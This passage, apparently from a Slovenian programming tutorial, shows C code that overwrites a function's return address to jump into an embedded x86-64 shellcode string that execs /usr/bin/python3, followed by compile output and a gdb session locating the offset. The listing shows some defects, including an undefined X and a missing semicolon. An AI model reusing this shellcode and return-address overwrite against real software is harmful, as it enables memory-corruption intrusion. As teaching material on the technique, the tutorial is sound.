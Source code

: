     #define Y 20

    int callme(int a, unsigned long *b){
        unsigned long *f;
        char program[64] = "\353\016_H1\366H1\322H1\300\260;\017\005\350\355\377\377\377/usr/bin/python3";
        f = (unsigned long*)(&a + X);	// Override return address.
        *f = (unsigned long)&(program[0])
        return a + *b;
    }

    int main(){
        int c, d;
        unsigned long e;
        c = 5;
        d = 3;
        e = c + d;              // e == 8
        e = callme(d, &e);		// e == 11
        c = c + e; 				// c == 16
        printf("c: %d\n", c);	
        return 0;
    }

    gcc stacky.c -g -o stacky

    ./stacky

    c: 16

Zadeva ne deluje, saj smo dodali novo spremenljivko `program` za spremenljivko `a` na našo kopico, zato razlika med naslovom spremenljivke `a` in 8 bajtov za naslovom kamor kaže register `rsp` ni več 7 32-bitnih celih števil. Ponovno odpremo program z orodjem `gdb` in ponovno izračunamo razliko med naslovom spremenljivke `a` in vrnitvenim naslovom.

    gdb stacky

    (gdb) break callme 

    Breakpoint 1 at 0x1140: file stacky.c, line 8. 

    (gdb) run 

    Starting program: /home/aleks/stacky  

    

    Breakpoint 1, callme (a=3, b=0x7fffffffebd0) at stacky.c:8 

    8		char program[64] = "\353\016_H1\366H1\322H1\300\260;\017\005\350\355\377\377\377/usr/bin/python3"; 

    (gdb) s 

    9		f = (unsigned long*)(&a + X); 

    (gdb) s 

    10		*f = (unsigned long)&(program[0]); 

    (gdb) s 

    11		return a + *b; 
